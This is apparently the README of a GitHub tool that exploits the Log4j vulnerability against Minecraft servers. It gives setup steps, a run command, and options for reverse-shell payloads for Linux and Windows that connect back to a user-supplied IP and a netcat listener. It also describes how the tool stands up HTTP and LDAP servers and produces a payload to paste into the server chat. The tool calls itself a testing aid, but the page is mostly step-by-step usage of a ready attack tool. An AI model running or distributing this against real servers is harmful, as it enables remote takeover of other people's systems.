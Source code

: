 Minecraft Log4j Exploit Tool
==============================

This tool is used for testing log4j exploits on a vulnerable Minecraft server using custom Java payloads


Setup Instructions
--------------------

1. Grab a Java version

- Offical Oracle Java archive

    https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

    **Note: ** You do need an Oracle account to download the package

- Unoffical Java 8u181 archive

    https://repo.huaweicloud.com/java/jdk/8u181-b13/

2. Modify **exploit.py**

- Modify these lines with the correct paths

    JAVA_BIN='path/to/bin/java'
    JAVAC_BIN='path/to/bin/javac'

Example:

    JAVA_BIN='jdk1.8.0_181/bin/java'  
    JAVAC_BIN='jdk1.8.0_181/bin/javac'


Running Exploits
--------------------

Use the following command:

    python exploit.py

General Options:

    --exploit   Load a specific exploit     DEFAULT: exploits/linRevShell.java
    --userip    Specify your IP address     DEFAULT: localhost
    --webport   Specify http-server port    DEFAULT: 8080
    --lport     Specify netcat port         DEFAULT: 4444

Example:

    python exploit.py --exploit exploits/winRevShell.java --userip 192.168.0.100 --webport 8080 --lport 4444

This script will setup an HTTP and LDAP server for you, the respective ports being *\<lport\>* and *1389*. It will then create the payload you can paste into the vulnerable server char. If you're using a reverse shell exploit, it will remind you to start a netcat listener. If successful, you should see a 200 GET response from the HTTP server for **Exploit.class**.


Notes
--------------------

- All Java exploits must be stored in exploits/ directory
- All Java exploit class names must reamin "Exploit" to work with the dynamic compilation
